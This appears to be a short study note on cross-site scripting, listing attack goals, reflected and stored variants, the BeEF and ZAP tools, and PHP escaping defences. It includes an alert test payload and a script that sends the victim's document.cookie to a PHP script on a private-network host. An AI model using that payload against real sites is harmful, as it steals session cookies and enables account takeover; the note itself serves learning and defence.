





# XSS (Cross-Site Scripting) vulnerabilities

Corresponds to sending data to the victim
In order to :
+ Steal user sessions, sensitive data, rewrite the web page, redirect to a phishing site...
+ Observe the client computer or even force the user to a particular site using an XSS proxy.



1. Sending a trapped link to the user
2. Hidden communication with a server
3. User sends unwanted data to the site
4. The hacker can pretend to be the user


### Example

```js
<script>alert(1)</script> // know if susceptible to an XSS flaw
```


-> Writes the GET parameters to a file

```js
<script>location.replace("http://192.168.1.38/monScript.php?cookie="+document.cookie)</script>
```

### Reflected XSS (non-persistent)



### Stored XSS (persistent)
Via POST method (in forums, comments, etc)


## Tools

### BeEF (Browser Exploitation Framework)

command: `beef-xss`
http://beefproject.com/
=> client side pentest tool

BeEF architecture



### zaproxy

Configure the browser to add the owasp proxy. This will automatically redirect into the software. Possibility of visualizing the source code, the parameters, explanations...


## Protect yourself from it:
* htmlsepcialchars() -> convert special characters to HTML entities
* htmlentities() -> filter characters equivalent to html and js coding
* strip_tags() -> remove tags
* do not include user-supplied content in the output page

